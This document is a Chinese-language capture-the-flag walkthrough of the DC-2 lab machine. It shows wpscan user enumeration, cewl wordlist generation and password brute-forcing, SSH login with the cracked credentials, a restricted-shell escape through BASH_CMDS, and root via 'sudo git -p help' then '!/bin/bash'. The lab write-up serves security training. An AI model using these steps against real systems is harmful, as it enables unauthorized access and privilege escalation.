# DC2靶机实战

> 扫描端口





- 发现开了`80端口`和`7744端口`,优先看80端口



- 发现无法解析`域名`

> 添加到host

```cmd
//找到该路径下的hosts文件,添加 ip + 域名
C:/Windows/System32/drivers/etc/hosts
```



- 重新进入网页,获取第一个`flag`
- 

> 爆破web目录

- 二话不说,直接爆破web路径



- 一个一个点进去看,发现有个`http://dc-2/wp-admin/install.php`会跳转到一个登录框`http://dc-2/wp-login.php`



> 爆破账号密码登录

```cmd
//枚举用户
 wpscan --url http://dc-2 --enumerate u
```



- 可能存在这三个用户(`tom`,`admin`,`jerry`),写入字典爆破看看

- ```cmd
  //使用该命令生成密码本
  cewl -o http://dc-2/
  ```

  

  

```cmd
//爆破出账户
jetty adipiscing
tom parturient
```

- 在`jerry`的`all page`找到了`flag2`



> 尝试爆破ssh(7744)



```cmd
//连接ssh
ssh tom@192.168.234.111
parturient	
```



- 发现`flag3.txt`但是没办法查看,有`rbash`限制

- 查看哪些`命令`可用
- 

- 那么这里使用`vi flag3.txt`查看
- 

- 这里特意区`百度`了一下(新手上路)

- 这句话是一个带有幽默感的双关语，结合了经典的卡通角色Tom和Jerry的名字以及一个常见的计算机命令的用法。

  - **Tom and Jerry** 是一个经典的动画片，其中Tom（猫）总是追逐Jerry（鼠标）。这是一个熟悉的卡通情节，Tom永远在追逐Jerry。

  - **su** 是 Unix/Linux 系统中的一个命令，用于切换用户身份（"su" 是 "substitute user" 的缩写）。通常用于在命令行中以另一用户的身份执行命令。

  在这句话中，"Perhaps he should su for all the stress he causes" 既可以理解为对Tom角色的幽默调侃，也有一种计算机方面的双关：

  1. **字面意义：** 这里的"su"可以被理解为“应该换成其他用户来应对所有的压力”，这是一个对Tom压力的幽默描述。

  2. **技术双关：** 在计算机领域，"su" 是一个命令，Tom在这里被戏称为“应该使用 `su` 命令`切换用户`”，即换成其他用户来处理他所面临的压力或任务。

  整体上，这句话利用了Tom和Jerry的幽默和技术术语的双关，增添了一种轻松和有趣的风格。

```bash
//查看用户信息
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
"/etc/passwd" [readonly] 29 lines, 1547 characters
```

- 发现`jeryy`是存在的,只是需要`rbash 逃逸`登录(jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash)

> rabash 逃逸

```bash
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin/*
/home/tom/usr/bin/less /home/tom/usr/bin/ls /home/tom/usr/bin/scp /home/tom/usr/bin/vi
tom@DC-2:~$ BASH_CMDS[a]=/bin/bash
tom@DC-2:~$ a
tom@DC-2:~$ /bin/bash
tom@DC-2:~$ export PATH=PATH:/sbin:/bin
tom@DC-2:~$ echo $PATH
PATH:/sbin:/bin
```



- 切换`用户`



- 查看`flag4.txt`
- 

```bash
这段话是一个典型的计算机安全挑战或解谜活动中的提示信息。它带有一些俏皮和鼓励的语气，通常用来激励参与者继续努力完成任务。下面是对这段话的逐步解析：

1. "Good to see that you've made it this far - but you're not home yet."
   - 意思是你已经在这个任务中取得了一些进展，但还没有完成最终目标。这里的“home”指的是完成任务或达到目标。

2. "You still need to get the final flag (the only flag that really counts!!!)."
   - 你还需要获取最后一个“flag”。在安全挑战中，"flag" 通常指代一个特定的标志或密钥，证明你已经成功完成了某项任务或解谜。这个“flag”是任务中最重要的一个，意味着最终的胜利或成功。

3. "No hints here - you're on your own now. :-)"
   - 这句话告诉你，接下来的部分没有提示或帮助，你需要依靠自己的努力来完成剩下的任务。微笑符号表示这是一种友好的提醒，而不是一种压力。

4. "Go on - git outta here!!!!"
   - 这句有双重含义：
     - **字面意思：“git outta here”是“离开这里”的俚语，鼓励你去完成任务。
     - **技术双关: "git" 是一个流行的版本控制系统，这里可能是一个有意的双关用语，暗示你可能需要使用 `git` 相关的命令或技巧来解决问题。

总结来说，这段话是在激励你继续努力完成最后的任务，利用一些幽默和技术术语来增加趣味性。
```



```bash
sudo git -p help

!/bin/bash
```

- 到这里打开一个用户为`root`的shell

- 查找flag,`find / -name "*flag*"`

